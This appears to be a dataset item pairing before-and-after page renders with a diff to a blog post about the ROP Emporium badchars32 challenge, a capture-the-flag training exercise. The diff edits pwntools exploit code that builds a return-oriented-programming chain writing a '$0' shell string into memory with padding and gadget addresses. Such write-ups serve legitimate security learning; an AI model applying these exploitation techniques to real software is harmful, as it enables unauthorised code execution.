

Before and after one commit to bhrdn/bhrdn.github.io, a Jekyll site: the page built from _posts/2020-03-22-ROP-Emporium-badchars32.md, in a window 1280 px wide and 900 px high, scrolled down 2250 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2020-03-22-ROP-Emporium-badchars32.md
+++ b/_posts/2020-03-22-ROP-Emporium-badchars32.md
@@ -87,17 +87,17 @@ continue
 io = start()
 
 payload = '\x90' * cyclic_find('laaa')
-command = '${0}'
+command = '$0'
 
 DATA_START = 0x804a038
 
-## gadgets to write datas
+## gadgets for write datas
 POP_ESI_POP_EDI = 0x08048899
 MOV_EDI_ESI = 0x08048893
 
 rop = ROP(exe)
 rop.raw(POP_ESI_POP_EDI)
-rop.raw(command)
+rop.raw(command.ljust(4, '\x00'))
 rop.raw(DATA_START)
 rop.raw(MOV_EDI_ESI)
 
```
